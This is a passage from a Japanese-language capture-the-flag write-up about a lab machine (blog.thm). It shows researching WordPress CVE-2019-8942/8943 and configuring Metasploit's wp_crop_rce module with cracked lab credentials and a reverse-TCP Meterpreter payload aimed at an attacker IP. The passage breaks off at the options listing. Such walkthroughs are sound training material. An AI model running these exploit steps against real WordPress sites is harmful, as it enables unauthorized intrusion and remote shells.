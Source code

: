 WordPressに対してログインすることができ、Author権限を得ることができた。
一方でアプリの侵入はできたがサーバーのOSには侵入できていないので別の攻撃を試してみる。

### WordPressのサーバーへの攻撃
#### 脆弱性の調査
nmapの結果からWordPressのバージョンが古いことはわかっているので脆弱性をネットで調査すると2つ脆弱性があるらしい
- CVE-2019-8942
- CVE-2019-8943
![](../img/Book/7DayHacking/7DayHacking_day7_1.png)

#### Metasploitを利用した攻撃
Metasploitを利用して、CVE-2019-8942の脆弱性を突いてみる
```sh
┌──(kali㉿kali)-[~/7DaysHacking/Day7]
└─$ msfconsole
                                                  
msf6 > search CVE-2019-8942

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_crop_rce) > 
```

各種設定を指定して、実行してみる
```sh
msf6 exploit(multi/http/wp_crop_rce) > set password cutiepie1
password => cutiepie1
msf6 exploit(multi/http/wp_crop_rce) > set rhosts blog.thm
rhosts => blog.thm
msf6 exploit(multi/http/wp_crop_rce) > set username kwheel
username => kwheel
msf6 exploit(multi/http/wp_crop_rce) > set lhost 10.17.30.207
lhost => 10.17.30.207
msf6 exploit(multi/http/wp_crop_rce) > show options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   cutiepie1        yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
```